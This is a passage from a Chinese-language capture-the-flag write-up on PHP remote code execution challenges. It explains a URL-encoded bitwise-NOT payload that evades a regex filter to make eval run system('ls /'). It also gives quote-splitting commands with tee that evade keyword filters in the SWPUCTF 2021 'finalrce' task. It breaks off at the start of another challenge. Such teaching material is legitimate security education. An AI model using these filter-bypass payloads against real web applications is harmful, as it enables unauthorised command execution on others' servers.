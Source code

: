   得到：

  ![](picture/4.png)

###### payload解析

```
(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
/*
%8C%86%8C%8B%9A%92 = ~system
so
~%8C%86%8C%8B%9A%92 = ~~system = system
外加括号作用是限定“~”的作用域，如果是 ~%8C%86%8C%8B%9A%92(~%93%8C%DF%D0);
那么第一个“~”遇见“(”的时候会不知所措：哈？前面没有括号告诉我要到哪截止啊？这里出现个“(”是什么鬼？计算机没有人的推理能力，它不会自己推出这种情况下第一个“~”的作用域是什么，必须明确规定它才会理解，因而导致解析失败，eval无法执行。
整个过程是：
“(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);”传到后端变成“(~xxx)(~xxx);”
绕过正则匹配来到eval，然后eval将“(~xxx)(~xxx);”做为PHP代码执行。
先变成“(system)(ls /);”，再执行。 //编译器会自动包裹引号
你不能妄想构造一个payload，它最终会变成“system(ls /)”，因为需要限制“~”的作用域，所以是达不到的。
*/
```

###### NOTICE

- 编译器会自动包裹引号，所以你用 `"system` 和 `(ls /)"` （即`"system(ls /)"`）取反、编码，最终会变成 `eval(""system(ls /);"")` ，反而无法执行。
- 用 `system` 和 `('ls /')` （即`system('ls /')`）取反、编码也不行，单引号不能参与取反操作，否则整个语句无法解析。 `(~%8C%86%8C%8B%9A%92)(~'%93%8C%DF%D0');` 或 `(~%8C%86%8C%8B%9A%92)(~%27%93%8C%DF%D0%27);` 是可以的，前提是没有正则过滤单引号。
- 分号、括号也同单引号一样，不能参与取反操作，否则无法解析。
- payload 必须 url 编码后传入才有效，在哪层就遵循哪层的规矩。

##### [SWPUCTF 2021 新生赛]finalrce

[NSS](https://www.ctfer.vip/problem/438)

- `?url=l''s /|tee 1.txt`

- 访问 xxx/1.txt
- `?url=c''at /flllll''aaaaaaggggggg|tee 2.txt` （"l"和"a"要断开，因为过滤了"la"）
- 访问 xxx/2.txt

##### [SWPUCTF 2021 新生赛]hardrce_3

[NSS](https://www.ctfer.vip/problem/467)

###### 前置知识

1、PHP 中数组的两种表示方法
